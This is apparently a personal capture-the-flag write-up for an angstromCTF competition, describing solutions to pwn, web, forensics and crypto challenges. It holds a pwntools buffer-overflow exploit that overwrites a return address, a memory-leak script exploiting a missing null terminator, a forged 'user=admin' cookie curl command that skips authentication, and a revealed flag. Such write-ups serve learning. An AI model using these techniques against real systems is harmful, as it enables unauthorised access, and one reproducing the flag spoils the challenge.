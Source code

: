 I actually had a team for this one; decided I'd learn more and of course be more successful with others so I acquired some help. These are the challenges I solved (organized from most interesting to least).

## logloglog
I didn't actually solve this during competition-time, but I thought it was really interesting nonetheless.



## wah
I put this in "interesting" because this was my first foray into pwn. Quite fun. Procedure: find offset of variable you can overflow from the instruction pointer, then overflow and overwrite the address it's pointing to (as that's what will execute).
```python
from pwn import *

target = remote('challs.actf.co', 31224)
#target = process('./wah')
payload = b"0"*0x28
payload += p64(0x401236)

target.sendline(payload)
```
## whatsmyname
Turns out if you don't properly null-terminate a user-supplied  string, you can read arbitrary memory (in this case, the a random variable).
```python
target = remote("challs.actf.co", 31223)
target.sendline("aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa")
line = target.recvline()
#print(line)
#print(target.recvline())
target.sendline(line[-49:][:-1])
#print(line[-49:][:-1])
print(target.recvline())
target.close()
```

# Simpler Challenges
## Amogus
```bash
diff -q --from-file actf\{look1ng_f0r_answers_in_the_p0uring_r4in_*; echo $?

Files actf{look1ng_f0r_answers_in_the_p0uring_r4in_001a5e03f1d9}.txt
and actf{look1ng_f0r_answers_in_the_p0uring_r4in_b21f9732f829}.txt differ
```
flag = `actf{look1ng_f0r_answers_in_the_p0uring_r4in_b21f9732f829}.txt`

## Crumbs
There may have been an easier way to do this but php is annoying and 1000 requests took maybe 2 minutes so ...
```python
import requests

apend = ""
for x in range(1001):
    resp = requests.get("https://crumbs.web.actf.co/"+apend).text
    print(resp)
    apend = resp.split("to ")[-1]
```

## Shark 1
```
strings shark1.pcapng | grep "actf"
Emactf{wireshark_doo_doo_doo_doo_doo_doo}
```
## Shark 2
1. "Ooh look an (unencrypted) conversation". 
2. 'I am sending the file now' says `10.0.2.15` ... oh come on this is too easy
3. A TCP stream from that address can be found immediately after 
4. Me: \*Follows stream\*
5. There's an image header: it's a JFIF (aka jpeg) file
5. Export as `shark.jpeg` (Wireshark conveniently has this function available)
6. Profit (the image had the flag)


## Auth Skip
I love default bash tools (and Linux as a whole but that's not largely relevant here): `curl -v --cookie "user=admin" https://auth-skip.web.actf.co/`

## The Flash
SimpleScreenRecorder + VLC ('e' to step forward a frame)

!["Sometimes simple solutions are best"](../cdn/flash.png "Sometimes simple solutions are best")

## Caesar and Desister
One word: [dcode.fr](https://www.dcode.fr/caesar-cipher)

!["Thanks dcode.fr"](../cdn/dcode.png)



